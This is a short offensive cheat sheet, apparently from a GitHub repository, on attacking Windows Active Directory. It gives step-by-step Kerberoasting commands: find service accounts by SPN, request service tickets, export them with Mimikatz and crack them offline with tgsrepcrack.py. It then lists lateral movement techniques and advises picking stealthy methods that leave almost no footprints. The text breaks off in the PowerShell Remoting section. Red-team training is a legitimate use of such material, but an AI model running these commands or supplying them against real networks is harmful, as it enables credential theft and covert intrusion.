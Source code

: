 ### Kerberoasting

- We send all the required details to DC to get a valid TGT, this TGT can be used to get a TGS (for authorization) to access any specific service.

- Upon getting the TGS (encrypted with target service account hash), one can export it and then brute-force it against a password dictionary.

- Also, Administrator generally do not focus on changing the credentials of non-machine service account, we end up getting the clear-text credentials ☺

- In-short, it is the offline brute-forcing of service account credentials.

- Find User accounts which are used as service accounts : 

```powershell
Get-NetUser –SPN
```

- We request the TGS aka service ticket : 

```powershell
Request-SPNTicket
```

- Check ticket in-memory:

```powershell
klist
```

- Export ticket using Mimikatz : 

```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

- Now, Crack the Service account password using tgsrepcrack.py

```python
python.exe .\tgsrepcrack.py .\passwords.txt ‘.\Ticket.kirbi'
```

### Lateral Movement

- The Adversary will try to move laterally in the environment in search for some critical servers/assets.

- Some of the techniques that can be used are : 
  - PowerShell Remoting
  - Windows Management Instrumentation (WMI)
  - Invoke-Mimikatz.ps1 etc

- It is advised to choose a method which is stealth and leave almost no footprints on ANY machines the Adversary is targeting.

### PowerShell Remoting

- It used WinRM protocol and runs by-default on TCP ports 5985 (HTTP) and 5986 (HTTPS)
